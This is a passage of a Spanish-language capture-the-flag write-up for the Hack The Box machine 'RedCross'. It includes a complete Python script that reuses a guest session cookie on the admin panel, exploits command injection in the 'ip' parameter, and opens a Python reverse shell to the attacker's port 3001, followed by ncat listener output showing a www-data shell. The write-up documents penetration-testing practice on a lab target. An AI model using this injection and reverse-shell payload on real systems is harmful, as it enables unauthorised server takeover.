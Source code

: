 ``` text
Server: Apache/2.4.25 (Debian)
Vary: Accept-Encoding
refresh: 1;url=/?page=firewall

DEBUG: All checks passed... Executing iptables
Network access restricted to 1.1.1.1
PING 10.10.14.84 (10.10.14.84) 56(84) bytes of data.

--- 10.10.14.84 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms

```

Habiendo identificado que podemos realizar un command injection desde el parametro **ip**, prepare el siguiente script de python para generar una reverse shell cada que necesite conectarme:

``` python
import requests,netifaces

urlIntraBase='https://intra.redcross.htb'
urlAdminBase='https://admin.redcross.htb'
urlActions = '/pages/actions.php'
loginParms = { "user":"guest", "pass":"guest", "action":"login"}

reverseShell = "python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"" + netifaces.ifaddresses('tun0')[netifaces.AF_INET][0]['addr'] + "\",3001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);\'"

s = requests.Session()
res = s.post(urlIntraBase + urlActions, data = loginParms, verify=False)

headersIntra = res.headers
cookie = ''
for minicookie in headersIntra["set-cookie"].replace('intra', 'admin').split(' '):
    if minicookie.split('=')[0].isupper():
        cookie += minicookie

headersAdmin = {"Cookie": cookie}
payload = {"ip":'1.1.1.1;'+reverseShell, "action":"deny"}
res = s.post(urlAdminBase + urlActions, data=payload ,headers=headersAdmin, verify=False, allow_redirects=False)
print res.text
```

# Digging as www-data

Ahora que hemos conseguido acceso al servidor, comencemos por enumerar el directorio de */var/www/html/*:

``` text
xbytemx@laptop:~/htb/redcross$ ncat -nvlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.113.
Ncat: Connection from 10.10.10.113:49806.
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
www-data@redcross:/var/www/html/admin/pages$ ls
ls
actions.php
bottom.php
cpanel.php
```